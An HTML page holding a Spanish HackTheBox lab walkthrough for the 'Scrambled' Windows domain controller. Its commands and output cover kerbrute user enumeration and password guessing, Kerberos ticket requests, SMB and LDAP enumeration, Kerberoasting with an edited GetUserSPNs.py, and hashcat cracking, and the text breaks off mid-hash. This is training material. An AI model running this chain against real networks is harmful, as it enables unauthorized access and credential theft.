





<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Scrambled</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Scrambled" de HackTheBox:

Caracteristicas:

- Windows  
- Media 
- Active directory  
- Web Enumeration 
- Information Leakage 
- Ldap Enumeration 
- Kerberos Enumeration 
- User Enumeration 
- Kerbrute Password Brute Force 
- Kerbrute SMB Enumeration 
- Kerberos Authentication [getTGT.py] ASREPRoast Attack 
- GetNPUsers.py (Failed) Kerberoasting Attack 
- GetUserSPNs.py Manipulating the GetUserSPNs.py script to make it work the way we want it to work 
- Cracking Hashes 
- Attempting to authenticate to the MSSQL service via kerberos (Failed) 
- Explaining Kerberos Auth Flow (TGT, TGS, KDC, AS-REQ, AS-REP, TGS-REQ, TGS-REP, AP-REQ, AP-REP) 
- Explaining how Silver Ticket Attack works Forging a new TGS as Administrator user (NTLM Hash, Domain SID and SPN) [ticketer.py && getPAC.py] 
- Connecting to the MSSQL service with the newly created ticket MSSQL Enumeration Enabling xp_cmdshell component in MSSQL [RCE] 
- Abusing SeImpersonatePrivilege [JuicyPotatoNG Alternative for Windows Server 2019] (Unintended Way) 
- Binary and DLL Analysis Downloading OpenVPN from a Windows machine and configuring it to reverse downloaded resources 
- Dnspy Installation DLL Inspection with Dnspy 
- Found a backdoor in the code We realize that serialization and deserialization of data is being used Creating a malicious base64 serialized Payload with ysoserial.net in order to get RCE We send the serialized data to the server [Privilege Escalation]

Util en:

- OSCP 
- OSEP 
- eWPTXv2 (Escalada) 
- Active Directory

        IP 10.10.11.168 

- nmap -p- --min-rate 10000 10.10.11.168

<pre>
<code>
Not shown: 65515 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
4411/tcp  open  found
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49684/tcp open  unknown
49691/tcp open  unknown
60013/tcp open  unknown
</code>
</pre>

- nmap -p 53,80,88,135,139,389,445,464,593,636,1433,4411,5985,9389 -sCV 10.10.11.168

<pre>
<code>
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Scramble Corp Intranet
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-09 12:46:19Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T01:42:36
|_Not valid after:  2023-06-09T01:42:36
|_ssl-date: 2022-06-09T12:49:27+00:00; +1s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T01:42:36
|_Not valid after:  2023-06-09T01:42:36
|_ssl-date: 2022-06-09T12:49:27+00:00; +1s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server  15.00.2000.00
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-06-09T12:38:55
|_Not valid after:  2052-06-09T12:38:55
|_ssl-date: 2022-06-09T12:49:27+00:00; +1s from scanner time.
4411/tcp open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
</code>
</pre>

Estos se parecen a los puertos típicos que esperaría en un DC de Windows, además de 80 (HTTP), 5985 (WinRM), 1433 (MSSQL) y algo desconocido en 4411. 
LDAP muestra el nombre de host completo como DC1.scrm.local. agregaré ambos DC1.scrm.local y scrm.local para mi /etc/hosts archivo. 

Algunas comprobaciones rápidas no muestran nada a lo que pueda acceder sin créditos, excepto HTTP (80).

El sitio es un sitio interno de Scramble Corp. Tiene algunas estadísticas básicas: 



Hay varios enlaces a diferentes páginas donde recopilaré información.

La autenticación NTLM está deshabilitada, por lo que podría estar relacionada con Kerberos. 



hay una captura de pantalla lanzando un comando con el usuario ksimpson. Tambien Hay un formulario de "Nueva cuenta de usuario", pero no parece enviar datos, por lo que no parece importante.
/salesorders.html tiene detalles sobre la "Aplicación de pedidos de ventas", que confirma el nombre de host/nombre de dominio de nmap y también da una indicación de para qué se utiliza TCP 4411:



Notaré que hay una opción para "Habilitar el registro de depuración". 

passwords.html dice:

Restablecimiento de contraseña

Nuestro sistema de autoservicio para restablecer contraseña estará operativo pronto, pero mientras tanto, llame a la línea de soporte de TI y restableceremos su contraseña. 
Si no hay nadie disponible, deje un mensaje indicando su nombre de usuario y restableceremos su contraseña para que sea la misma que el nombre de usuario.

Todas las páginas se cargan como .html archivos, lo cual es una buena indicación de que se trata de un sitio estático. Los encabezados no muestran ninguna indicación 
adicional de contenido dinámico:

Para encontrar un nombre de usuario, podemos usar kerbrute y una buena lista de palabras de nombre de usuario. 

<pre>
<code>
kali@kali:~/Documents/HTB/Scrambled$ kerbrute userenum --dc 10.10.11.168 -d scrm.local /usr/share/wordlists/kerberos_enum_userlists/A-ZSurnames.txt 

__             __               __     
/ /_____  _____/ /_  _______  __/ /____ 
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/30/22 - Ronnie Flathers @ropnop

2022/06/30 16:29:22 >  Using KDC(s):
2022/06/30 16:29:22 >   10.10.11.168:88

2022/06/30 16:29:22 >  [+] VALID USERNAME:       ASMITH@scrm.local
2022/06/30 16:30:16 >  [+] VALID USERNAME:       JHALL@scrm.local
2022/06/30 16:30:22 >  [+] VALID USERNAME:       KSIMPSON@scrm.local
2022/06/30 16:30:25 >  [+] VALID USERNAME:       KHICKS@scrm.local
2022/06/30 16:31:07 >  [+] VALID USERNAME:       SJENKINS@scrm.local
</code>
</pre>

luego con el usuario que habiamos encontrado anteriormente podemos encontrar que el usuario "KSIMPSON" también es su contraseña. 

<pre>
<code>
kali@kali:~/Documents/HTB/Scrambled$ kerbrute bruteuser --dc 10.10.11.168 -d scrm.local users.txt KSIMPSON

__             __               __     
/ /_____  _____/ /_  _______  __/ /____ 
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/30/22 - Ronnie Flathers @ropnop

2022/06/30 16:49:10 >  Using KDC(s):
2022/06/30 16:49:10 >   10.10.11.168:88

2022/06/30 16:49:10 >  [+] VALID LOGIN:  KSIMPSON@scrm.local:ksimpson
2022/06/30 16:49:10 >  Done! Tested 10 logins (1 successes) in 0.444 seconds
</code>
</pre>

Debido a que la autenticación NTLM se ha deshabilitado, intentemos obtener un TGT. 

- kali@kali:~/Documents/HTB/Scrambled$ getTGT.py scrm.local/KSIMPSON:ksimpson -dc-ip 10.10.11.168

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in KSIMPSON.ccache

Usando el ticket, podemos obtener el nombre principal del servicio de la cuenta, que es un servicio MSSQL. 

pero continuaremos en el puerto 389 de ldap. Veré qué puedo obtener de LDAP sin créditos. Primero necesito el contexto de nomenclatura: 

<pre>
<code>
ldapsearch -h 10.10.11.168 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=scrm,DC=local
namingcontexts: CN=Configuration,DC=scrm,DC=local
namingcontexts: CN=Schema,CN=Configuration,DC=scrm,DC=local
namingcontexts: DC=DomainDnsZones,DC=scrm,DC=local
namingcontexts: DC=ForestDnsZones,DC=scrm,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
</code>
</pre>

No puedo ir más lejos sin autenticación: 

<pre>
<code>
ldapsearch -h 10.10.11.168 -x -b "DC=scrm,DC=local"
# extended LDIF
#
# LDAPv3
# base <DC=scrm,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
</code>
</pre>

continuamos con smb 
Debido a que la autenticación NTLM está deshabilitada, no podré usar muchas de las herramientas estándar aquí y no podré acceder a ningún servicio por dirección IP 
si requiere autenticación.

volvemos a smb entramos con el use que tambien era la password

- smbclient.py -k scrm.local/ksimpson:ksimpson@dc1.scrm.local -dc-ip dc1.scrm.local

y encontramos varios recursos.

# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL

que dentro de public podemos encontrar el archivo 

- -rw-rw-rw- 630106 Fri Nov  5 17:45:07 2021 Network Security Changes.pdf

el documento es una carta ti para los empleados.



Esto menciona nuevamente que NTLM está deshabilitado debido a un ataque de retransmisión NTLM y ahora todo se hace a través de Kerberos. También menciona que se ha 
eliminado el acceso a la base de datos SQL del departamento de recursos humanos.

GetUserSPNs.py(otro script de Impactet ) suele ser la forma de obtener un challenge/response potencialmente descifrable de un servidor Windows. 
Sin embargo, cuando se lanzó Scrambled, se rompe: 

Algunas búsquedas en Google muestran que el autor de este cuadro ha planteado un problema en Impacket GitHub por este mismo error con el título "GetUserSpns.py falla al usar la opción -k y la autenticación NTLM está deshabilitada". La solución sugerida en ese problema es editar una línea, lo cual haré en la línea 260:
<pre>
<code>
        if self.__doKerberos:
            #target = self.getMachineName()
            target = self.__kdcHost
</code>
</pre>

Después de realizar ese cambio, arroja un challenge/response (o "hash", pero no realmente un hash) para el usuario de MSSQLSvc: 

<pre>
<code>
GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request -k
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2022-06-09 12:38:53.607806             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2022-06-09 12:38:53.607806             

$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$e072073f4a55e5da82ffb47a79b1af27$435b563903b2fe93226ec9fa2ed61cf27100fb95cdad338fadde59bca765a353acbde62dd57069c0aaf233df91242c37941f2a77ab4181e79e706b663b319dd9cae533a998ea153863deecfc781fd164d1ddd8533646c2cf520788e8327b8e6f8d1cebc18aabff1d59175d1feceb46ef1c57f155b3fcba5bea23d756f332c34d87098bee05ff5f5c4efeae137d09b32ddf96f83aeb1697206c3bd387b18391a55e3e8696a8ce949f7263cd2ca894a43ccb1da0bf66918c0a62ba3e773b261aa2def3e9b8655c23f35ad920a70ed0fb74295cf88080e191f2389737ee8b06fd2e83aa073f24d9a6957625aba34b3930b888f82533dbee813b1db482cbe289cc665445227422d3771dee941e5889f3f8d92ee4bc2008a0abcfab9d3f16b5455131b55b9700ab1ddb44c639364fdfc32f566ce57c394866b1562a3430811bcae36f6dac2392aa6bb83db95e5ead924e870ff9c14cf5f6ce8f98e79cb7cd9fb23b3b36b92933ec7c5534df731bb851b931d974f86fdac987a2eea7f9d103c931b1d9625daa4b2d4a2164771ddb5aeaed601b46ef8588bd14e876d4b6bb8f1054777ec17b011ed48426a9af7e55fac84784ab00de9d27b63ed21481b782bc39775d263f875f2588eccdb7a8aadd81f5d9b0bbe0d429f251688de9b4e5dfe62f9ff04a1246bb4a46a7b2b5ff6aa41cf9dc544cb793253348e31f513df1fe0b92ef687fbcb6235cb284e648a1e6d24a896084266b53897255f0f0464af0527b34fc2411e4532dac626abc153913bfa830c638418999d8272740f6b2871ec8820104f4e45c4aad639c160bcdfac6e8b4ca0f0c4313d592e7a0f5448c0f8e8f1b45c7b3ad0105585a5fae2a369b89d790db71e03d1d27cebdbf0b60ebc291d12f38aa62a97c3ab7cbca9bf28104089850386cc7008b0f00bc92bb17bd7c43c210b935f4035e00342e7bb9690afb9b7a1f8e73ee5ec065a5096e1b786e92faa32ca85209e9595d0cc7f2da26e8d9ea64aa49938c16169fe6b094426bbeb9b362929c00d853dc89488b22af4c753d2d32ae448cff1e5b89aac5c608046d911ac245dfe0aa7dfe92973807c5f655eb7ac25496aa1a7e1618d87b45fe2546857fbfc6d4dfe45acb1dc95774a1e7599980715dc6cb213b15873064ed08c70334efd247866d75718c2012207604ed02c4937026eb080ffea605173722f9fba39318a215cdef702be8ca84c43d446837d04be4b16851b0890c42cb95ed43c9f3f99f00bd22c157258f34c242bd77d2006d56eac7b52612838c9554cf4bcd7933f337ef6eda88fa9b00610cf7598c5fb3f5b9aa1223a53423a257c30d00dd1c4f9dd51bef4df1760f4e9273c2e16021da0dfc38fd98c81ed0f1667b97ee4e0bab6790ccd8d675bf7fdeae8e97f25aa0558b4ae858bfc1e5553485afba9084d877a20816
</code>
</pre>

El problema se solucionó y si uso el Impacket actualizado, solo necesito usar -dc-hosten lugar de -dc-ip: 

<pre>
<code>
- GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request -k
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[*] Getting machine hostname
[-] The SMB request is not supported. Probably NTLM is disabled. Try to specify corresponding NetBIOS name or FQDN as the value of the -dc-host option


- $ GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -request -k
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2022-09-27 20:50:47.384025             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2022-09-27 20:50:47.384025             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$7d0427e0f264b8353b6d698a94ebbdd0$86afd2b41b0d6d97163c57a8d83e1a865d4deecb929ab11c245d7f1e6be9b4ec98497919d5c0f534da9dc41835c30d93bc49a80c69932cba1bb4c7191fc02a235d5ba87af6000d23ac85ab08ce57bec96da2b781f64bed0614a5ab289632ede3681612a7b6cc136191f7591842bed6064d29c8f53db4eb706948d0b33a7f36fdbd260c32f88f8be43074b2224fe85bb2db48c01db3a93e6f0896875efe82f8959303903ca7387a9035f6501ade7c473f8baa225beaf6a7e7d16c266611527a1c44a6368b4186c1e5787d2a53b362f7d67acf75737579651be6edb47d7f4c9be5321b7d2e06ee7193cde699b414db3b633e7982cb183a0fb83ea545af29d23710ecb2d565e0fe8f6b53ba2d714fe68071d32de0ee4f20e10a6c3ff8e5ee8c05e2709e81685dcf7f7bddda4e2c42d0ceef4e72c395b1db22bb5f7915b3135451ab8f0f1e748e6b281dc66dc44369131479f2d1f605243c0c080827e0d972a40b62b9052f288b9a506dbeb578f585bb0ce53514f567cadcdb39337d261c446bff419d693d0e51a04e4af3069b25565c514b845ad4af73d0a280f4408da2d4567a249013eec40359fc2e111db00e8bd7dcbd28d05ee429104f0e8a68882d319dfddf3b729825eb0fca0fba421bac9d8a23978161e4b04a79ec604f06079794b893e9b6afccf667f2f9223e353bdf60aac4a0e953ab05a88c3cec30aa55f87bc967d7bebfd5b0183b376ebc8529a0ae33890210ce34c6a72a9bc65064fb69241f7f59ec67afa7f02dd1d13c61578b928d889f2d85ffc06fd63b93e0426ecc25d979db5034e4b7ec8b33f310d5c35ad52d93214fa7cabe0e3d29e22101c64c71ecb067e709b5f9925a144be374b73cbf465dbf9ca789eaa22f29a4a8996799407ed00374ef5800cf3a82c2a65c4f96a63c56853238c47afa6b7ef88beb57e73b90d080b801c2be1c8da31bda26b086f65168b64b765e36fcc7c027a43a9b0fa5ce0e3f746e9fe6f129e9e14ca7ddc8d9367808d93c1e179220f9aa236fc309f76a9dfd125b6e2a8a9c4eac7a01e10c9de636f5fda0841d4cfe1f55e62b4f4f94145cf5e42cee78cb878d619d62c19ce691edc6e5c3074f263f311daa8b8eb128018397086fed0fa43976a6330b637aa7301f10ca1d2fa766f5a9380088e3489e7b653591ed097c1d47154ef8c5899d6663cc1a8464e98979910e4f6ae66c4de87dd9ffac3701946a147bf5eb40109ec736494298ce53fc102fd0ea1fefb1dc252acb07de1eef1b869d23582234abb8e55433224648f6ce6440ae46ddc9f5edd2dcae6ad16358456852fcd4530de86a457b07bf17eeee77887651f1723cf76b04f6aa357a5529ff0df3e5a25b56216354710efa81654ac922d2447e48194d0100a81152c1926ce3353ef557d3637c733c63915fab0fd8b20f3c9d840c8ae5
</code>
</pre>

Decifralo

Guardaré esto en un archivo y lo ejecutaré en hashcat con rockyou.txt: 

<pre>
<code>
$ hashcat mssqlsvc-hash /usr/share/wordlists/rockyou.txt
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol
...[snip]...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$e072073f4a55e5da82ffb47a79b1af27$435b563903b2fe93226ec9fa2ed61cf27100fb95cdad338fadde59bca765a353acbde62dd57069c0aaf233df91242c37941f2a77ab4181e79e706b663b319dd9cae533a998ea153863deecfc781fd164d1ddd8533646c2cf520788e8327b8e6f8d1cebc18aabff1d59175d1feceb46ef1c57f155b3fcba5bea23d756f332c34d87098bee05ff5f5c4efeae137d09b32ddf96f83aeb1697206c3bd387b18391a55e3e8696a8ce949f7263cd2ca894a43ccb1da0bf66918c0a62ba3e773b261aa2def3e9b8655c23f35ad920a70ed0fb74295cf88080e191f2389737ee8b06fd2e83aa073f24d9a6957625aba34b3930b888f82533dbee813b1db482cbe289cc665445227422d3771dee941e5889f3f8d92ee4bc2008a0abcfab9d3f16b5455131b55b9700ab1ddb44c639364fdfc32f566ce57c394866b1562a3430811bcae36f6dac2392aa6bb83db95e5ead924e870ff9c14cf5f6ce8f98e79cb7cd9fb23b3b36b92933ec7c5534df731bb851b931d974f86fdac987a2eea7f9d103c931b1d9625daa4b2d4a2164771ddb5aeaed601b46ef8588bd14e876d4b6bb8f1054777ec17b011ed48426a9af7e55fac84784ab00de9d27b63ed21481b782bc39775d263f875f2588eccdb7a8aadd81f5d9b0bbe0d429f251688de9b4e5dfe62f9ff04a